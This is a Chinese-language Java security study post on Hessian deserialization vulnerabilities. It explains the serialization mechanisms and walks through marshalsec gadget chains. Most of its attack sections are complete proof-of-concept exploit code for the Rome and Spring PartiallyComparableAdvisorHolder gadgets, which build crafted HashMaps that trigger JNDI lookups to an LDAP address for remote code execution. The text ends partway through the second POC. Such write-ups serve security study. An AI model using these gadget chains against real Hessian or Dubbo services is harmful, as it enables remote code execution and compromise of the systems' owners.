




# Java安全学习—Hessian反序列化漏洞

Author: H3rmesk1t

Data: 2022.03.11

# 前言
本文先对`Hessian`反序列化漏洞进行学习, 为后续学习`Dubbo`相关的反序列化漏洞提供前置知识.

# 序列化/反序列化机制
这里补充一下在`Java`中, 序列化/反序列化机制大体分为以下两种, 参考[marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true).

## 基于Bean属性访问机制
 - SnakeYAML
 - jYAML
 - YamlBeans
 - Apache Flex BlazeDS
 - Red5 IO AMF
 - Jackson
 - Castor
 - Java XMLDecoder
 - ...

它们有共同点, 也有自己独有的不同处理方式. 最基本的区别是如何在对象上设置属性值, 有的通过反射自动调用`getter(xxx)`和`setter(xxx)`访问对象属性; 有的还需要调用默认`Constructor`; 有的处理器在反序列化对象时, 如果类对象的某些方法还满足自己设定的某些要求, 也会被自动调用; 还有`XMLDecoder`这种能调用对象任意方法的处理器; 有的处理器在支持多态特性时, 例如某个对象的某个属性是`Object`、`Interface`、`abstruct`等类型, 为了在反序列化时能完整恢复, 需要写入具体的类型信息, 这时候可以指定更多的类, 在反序列化时也会自动调用具体类对象的某些方法来设置这些对象的属性值. 这种机制的攻击面比基于`Field`机制的攻击面大, 因为它们自动调用的方法以及在支持多态特性时自动调用方法比基于`Field`机制要多.

## 基于Field机制
 - Java Serialization
 - Kryo
 - Hessian
 - json-io
 - XStream
 - ...

基于`Field`机制是通过特殊的`native`(`native`方法不是`java`代码实现的, 所以不会像`Bean`机制那样调用`getter`、`setter`等更多的`java`方法)方法或反射(最后也是使用了`native`方式)直接对`Field`进行赋值操作的机制, 不是通过`getter`、`setter`方式对属性赋值, 上面某些处理器如果进行了特殊指定或配置也可支持`Bean`机制方式.

# Hessian 简介
`Hessian`是二进制的`web service`协议, 官方对`Java`、`Flash`/`Flex`、`Python`、`C++`、`.NET C#`等多种语言都进行了实现, 是一个轻量级的`RPC`框架, 使用简单的方法提供了`RMI`的功能. `Hessian`基于`HTTP`协议进行传输, 采用二进制`RPC`协议, 适合于发送二进制数据, 对数据包比较大的情况比较友好.

## 区别测试
下面做个简单测试下`Hessian Serialization`与`Java Serialization`:

 - Demo.java

```java
package org.h3rmesk1t.Hessian;

import java.io.Serializable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 11:39 上午
 */
public class Demo implements Serializable {

    private int age;
    private String name;


    public int getAge() {
        System.out.println("getAge call");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge call");
        this.age = age;
    }

    public String getName() {
        System.out.println("getName call");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName call");
        this.name = name;
    }

    public Demo() {
        System.out.println("Demo default constractor call");
    }

    public Demo(int age, String name) {
        this.age = age;
        this.name = name;
    }

    @Override
    public String toString() {
        return "My name is " + name + " and my age is " + age;
    }
}
```

 - HJSerialization.java

```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 11:38 上午
 */
public class HJessianSerialization {

    public static <T> byte[] hserialize(T t) {
        byte[] data = null;
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
            hessianOutput.writeObject(t);
            data = byteArrayOutputStream.toByteArray();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return data;
    }

    public static <T> T hdeserialize(byte[] date) {
        if (date == null) {
            return null;
        }
        Object obj = null;
        try {
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(date);
            HessianInput hessianInput = new HessianInput(byteArrayInputStream);
            obj = hessianInput.readObject();
            hessianInput.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return (T) obj;
    }

    public static <T> byte[] jdkserialize(T t) {
        byte[] data = null;
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(t);
            objectOutputStream.close();
            data = byteArrayOutputStream.toByteArray();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return data;
    }

    public static <T> T jdkdeserialize(byte[] date) {
        if (date == null) {
            return null;
        }
        Object obj = null;
        try {
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(date);
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            obj = objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return (T) obj;
    }

    public static void main(String[] args) throws Exception {
        Demo demo = new Demo(20, "h3rmesk1t");

        long htime1 = System.currentTimeMillis();
        byte[] hdata = hserialize(demo);
        long htime2 = System.currentTimeMillis();
        System.out.println("hessian serialize result length = " + hdata.length + "," + "cost time：" + (htime2 - htime1));

        long htime3 = System.currentTimeMillis();
        Demo hdemo = hdeserialize(hdata);
        long htime4 = System.currentTimeMillis();
        System.out.println("hessian deserialize result: " + hdemo + "," + "cost time：" + (htime4 - htime3) + "\n");

        long jdktime1 = System.currentTimeMillis();
        byte[] jdkdata = hserialize(demo);
        long jdktime2 = System.currentTimeMillis();
        System.out.println("jdk serialize result length = " + jdkdata.length + "," + "cost time：" + (jdktime2 - jdktime1));

        long jdktime3 = System.currentTimeMillis();
        Demo jdkdemo = hdeserialize(jdkdata);
        long jdktime4 = System.currentTimeMillis();
        System.out.println("jdk deserialize result: " + jdkdemo + "," + "cost time：" + (jdktime4 - jdktime3) + "\n");

    }
}
```

<div align=center></div>

## Hessian概念图
`Hessian`序列化/反序列化机制的基本概念图如下:

<div align=center></div>

 - AbstractSerializerFactory: 抽象序列化器工厂, 是管理和维护对应序列化/反序列化机制的工厂, 拥有 getSerializer 和 getDeserializer 方法, 默认的几种实现如下.
   - SerializerFactory: 标准的实现.
   - ExtSerializerFactory: 可以设置自定义的序列化机制, 通过该 Factory 可以进行扩展.
   - BeanSerializerFactory: 对 SerializerFactory 的默认 Object 的序列化机制进行强制指定, 指定为 BeanSerializer.
   - Serializer: 序列化的接口, 拥有 writeObject 方法.
   - Deserializer: 反序列化的接口, 拥有 readObject、resdMap、readList 方法.
   - AbstractHessianInput: Hessian 自定义的输入流, 提供对应的 read 各种类型的方法.
   - AbstractHessianOutput: Hessian 自定义的输出流，提供对应的 write 各种类型的方法.

`Hessian Serializer`/`Hessian Derializer`默认情况下实现了以下序列化/反序列化器, 用户也可通过接口/抽象类自定义序列化/反序列化器:

<div align=center></div>

在`Hessian`的`Deserializer`中, 有以下几种默认实现的反序列化器:

<div align=center></div>

# Hessian反序列化漏洞
和`Java`原生的序列化对比, `Hessian`更加高效并且非常适合二进制数据传输. 既然是一个序列化/反序列化框架, `Hessian`同样存在反序列化漏洞的问题.

对于`Hessian`反序列化漏洞的利用, 可以使用[marshalsec](https://github.com/mbechler/marshalsec)工具的`Gadget`而不是`ysoserial`的`Gadget`. 这是因为`ysoserial`是针对`Java`原生反序列化漏洞的, 并没有一些如`Hessian`等非`Java`原生反序列化漏洞的`Gadgets`.

`Hessian`反序列化同样存在漏洞入口点在对`Map`类型反序列化处理时, 会调用`HashMap`的`put`方法, 换而言之就是会调用`key`的`hashcode`方法, 所以只要找到一条以`hashcode`开始的利用链, 就可以完成一次`Hessian`反序列化攻击. 针对`Hessian`反序列化的攻击, 在`marshalsec`这个工具里, 已经有了`5`个可用的`Gadgets`, 分别是:
 - Rome
 - XBean
 - Resin
 - SpringPartiallyComparableAdvisorHolder
 - SpringAbstractBeanFactoryPointcutAdvisor

<div align=center></div>

## Rome
### 构造分析
 - 先来看看`marshalsec`中给出的`Rome.java`, 跟进`JDKUtil.makeJNDIRowSet(args[ 0 ])`语句中, `args[ 0 ]`是传进来的`ldap`地址.
```java
public interface Rome extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makeRome ( UtilFactory uf, String[] args ) throws Exception {
        return makeROMEAllPropertyTrigger(uf, JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(args[ 0 ]));
    }
    ...
}
```

 - 在`makeJNDIRowSet`中, 先创建`JdbcRowSetImpl`实例, 接着调用`setDataSourceName`方法对实例的`dataSource`赋值为输入的`jndiUrl`变量, 接着调用`setMatchColumn`方法, 将`JdbcRowSetImpl`实例的`strMatchColumn`成员变量设置为`foo`, 最后将`JdbcRowSetImpl`实例的`listeners`变量设置为`null`.

```java
public static JdbcRowSetImpl makeJNDIRowSet ( String jndiUrl ) throws Exception {
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(jndiUrl);
    rs.setMatchColumn("foo");
    Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
    return rs;
}
```

 - 接着跟进`marshalsec`中的`Rome#makeROMEAllPropertyTrigger`方法, 实例化`ToStringBean`对象, 将`JdbcRowSetImpl.class`和`JdbcRowSetImpl`实例传递到构造方法中, 接着实例化`EqualsBean`对象将`ToStringBean.class`和`ToStringBean`的实例化对象进行传递, 获取到名为`root`的实例化对象. 接着调用`uf.makeHashCodeTrigger(root)`.

```java
default <T> Object makeROMEAllPropertyTrigger ( UtilFactory uf, Class<T> type, T obj ) throws Exception {
    ToStringBean item = new ToStringBean(type, obj);
    EqualsBean root = new EqualsBean(ToStringBean.class, item);
    return uf.makeHashCodeTrigger(root);
}
```

 - 接着跟进到`UtilFactory#makeHashCodeTrigger`方法, 该方法会传递`2`个同样的对象到`JDKUtil#makeMap`方法中.

```java
default Object makeHashCodeTrigger ( Object o1 ) throws Exception {
    return JDKUtil.makeMap(o1, o1);
}
```

 - 跟进`JDKUtil#makeMap`方法, 先实例化`HashMap`并将长度设置为`2`, 接着反射获取`java.util.HashMap$Node`或`java.util.HashMap$Entry`, 再实例化一个对象并且设置长度为`2`, 并且第一个数据插入值为`java.util.HashMap$Node`的实例化对象, 该对象在实例化的时候传递`4`个值, 第一个值为`0`, 第二和三个值为刚刚获取并传递进来的`EqualsBean`实例化对象, 第四个为`null`. 插入的第二个数据和第一个一样, 接着通过反射设置`s`这个`hashmap`中`table`的值为反射创建的`java.util.HashMap$Node`对象.

```java
public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
    HashMap<Object, Object> s = new HashMap<>();
    Reflections.setFieldValue(s, "size", 2);
    Class<?> nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    }
    catch ( ClassNotFoundException e ) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
    Reflections.setFieldValue(s, "table", tbl);
    return s;
}
```

### POC
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 5:07 下午
 */
public class RomeGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Object JDBCInject() throws Exception {

        // 反序列化时 ToStringBean.toString 会被调用, 触发 JdbcRowSetImpl.getDatabaseMetaData -> JdbcRowSetImpl.connect -> Context.lookup.
        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(jndiUrl);
        jdbcRowSet.setMatchColumn("foo");
        return  jdbcRowSet;
    }

    public static void main(String[] args ) throws Exception {

        // 反序列化时 EqualsBean.beanHashCode 会被调用, 触发 ToStringBean.toString.
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, JDBCInject());

        // 反序列化时 HashMap.hash 会被调用, 触发 EqualsBean.hashCode -> EqualsBean.beanHashCode.
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        // HashMap.put -> HashMap.putVal -> HashMap.hash
        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center></div>

## SpringPartiallyComparableAdvisorHolder
### 构造分析
 - 先来看看`marshalsec`中给出的`SpringPartiallyComparableAdvisorHolder.java`, 这里将传入的`jndiUrl`传入`SpringUtil#makeJNDITrigger`方法.

```java
public interface SpringPartiallyComparableAdvisorHolder extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makePartiallyComparableAdvisorHolder ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        BeanFactory bf = SpringUtil.makeJNDITrigger(jndiUrl);
        return SpringUtil.makeBeanFactoryTriggerPCAH(uf, jndiUrl, bf);
    }
}
```

 - 跟进`SpringUtil#makeJNDITrigger`方法, 会继续调用`SimpleJndiBeanFactory#setShareableResources`方法, 该方法会将`jndiUrl`转换成一个`list`对象, 然后调用`this.shareableResources.addAll`方法对`shareableResources`的`HashSet`进行`addAll`操作. 接着获取`bf`, 设置`logger`的值为`NoOpLog`实例化对象, 用同样的方式对获取的`bf.getJndiTemplate()`进行操作. 最后返回`bf`的`BeanFactory`实例化对象.

```java
public static BeanFactory makeJNDITrigger ( String jndiUrl ) throws Exception {
    SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
    bf.setShareableResources(jndiUrl);
    Reflections.setFieldValue(bf, "logger", new NoOpLog());
    Reflections.setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());
    return bf;
}
```

```java
public void setShareableResources(String... shareableResources) {
    this.shareableResources.addAll(Arrays.asList(shareableResources));
}
```

 - 继续跟进`SpringPartiallyComparableAdvisorHolder#makeBeanFactoryTriggerPCAH`方法, 先创建`BeanFactoryAspectInstanceFactory`的实例化对象, 并将`bf`变量和`name`分别反射赋值到`beanFactory`和`name`中. 接着创建`AbstractAspectJAdvice`对象, 将`aspectInstanceFactory`的值, 设置为`aif`变量对象进行传递. 并将`advice`的`declaringClass`、`methodName`、`parameterTypes`分别设置为`Object.class`、`toString`、`new Class[0]`, 创建`AspectJPointcutAdvisor`对象, 将前面设置了一系列值的`advice`放置到`advisor`对象的`advice`变量中. 最后创建`org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder`对象, 将`advisor`设置到该对象的`advisor`成员变量中, 并且调用`uf.makeToStringTriggerUnstable(pcah)`.

```java
public static Object makeBeanFactoryTriggerPCAH ( UtilFactory uf, String name, BeanFactory bf ) throws ClassNotFoundException,
        NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, Exception {
    AspectInstanceFactory aif = Reflections.createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
    Reflections.setFieldValue(aif, "beanFactory", bf);
    Reflections.setFieldValue(aif, "name", name);
    AbstractAspectJAdvice advice = Reflections.createWithoutConstructor(AspectJAroundAdvice.class);
    Reflections.setFieldValue(advice, "aspectInstanceFactory", aif);

    // make readObject happy if it is called
    Reflections.setFieldValue(advice, "declaringClass", Object.class);
    Reflections.setFieldValue(advice, "methodName", "toString");
    Reflections.setFieldValue(advice, "parameterTypes", new Class[0]);

    AspectJPointcutAdvisor advisor = Reflections.createWithoutConstructor(AspectJPointcutAdvisor.class);
    Reflections.setFieldValue(advisor, "advice", advice);

    Class<?> pcahCl = Class
            .forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
    Object pcah = Reflections.createWithoutConstructor(pcahCl);
    Reflections.setFieldValue(pcah, "advisor", advisor);
    return uf.makeToStringTriggerUnstable(pcah);
}
```

 - 接着跟进`UtilFactory#makeToStringTriggerUnstable`, 继续会调用`ToStringUtil#makeToStringTrigger`方法. 然后会调用到`JDKUtil#makeMap`方法, 这里与`RomeGadget`后面的分析一样了.

```java
Object makeToStringTriggerUnstable ( Object obj ) throws Exception;


default Object makeToStringTriggerStable ( Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC
在`POC`中的序列化部分多出来了几行代码, 这是因为, 一般对于对象的序列化, 如果对象对应的`class`没有对`java.io.Serializable`进行实现`implement`的话, 是没办法序列化的, 所以这里对输出流进行了设置, 使其可以输出没有实现`java.io.Serializable`接口的对象.
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 6:26 下午
 */
public class SpringPartiallyComparableAdvisorHolderGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {
            "unchecked"
    } )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static void main(String[] args) throws Exception {

        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        beanFactory.addShareableResource(jndiUrl);

        // 反序列化时 BeanFactoryAspectInstanceFactory.getOrder 会被调用, 会触发调用 SimpleJndiBeanFactory.getType -> SimpleJndiBeanFactory.doGetType -> SimpleJndiBeanFactory.doGetSingleton -> SimpleJndiBeanFactory.lookup -> JndiTemplate.lookup.
        setFieldValue(beanFactory, "logger", new NoOpLog());
        setFieldValue(beanFactory.getJndiTemplate(), "logger", new NoOpLog());

        // 反序列化时 AspectJAroundAdvice.getOrder 会被调用, 会触发 BeanFactoryAspectInstanceFactory.getOrder.
        AspectInstanceFactory aspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(aspectInstanceFactory, "beanFactory", beanFactory);
        setFieldValue(aspectInstanceFactory, "name", jndiUrl);

        // 反序列化时 AspectJPointcutAdvisor.getOrder 会被调用, 会触发 AspectJAroundAdvice.getOrder.
        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFieldValue(advice, "aspectInstanceFactory", aspectInstanceFactory);

        // 反序列化时 PartiallyComparableAdvisorHolder.toString 会被调用, 会触发 AspectJPointcutAdvisor.getOrder.
        AspectJPointcutAdvisor advisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(advisor, "advice", advice);

        // 反序列化时 Xstring.equals 会被调用, 会触发 PartiallyComparableAdvisorHolder.toString.
        Class<?> pcahCl = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object pcah = createWithoutConstructor(pcahCl);
        setFieldValue(pcah, "advisor", advisor);

        // 反序列化时 HotSwappableTargetSource.equals 会被调用, 触发 Xstring.equals.
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(pcah);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("h3rmesk1t"));

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hotSwappableTargetSource1, hotSwappableTargetSource1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hotSwappableTargetSource2, hotSwappableTargetSource2, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
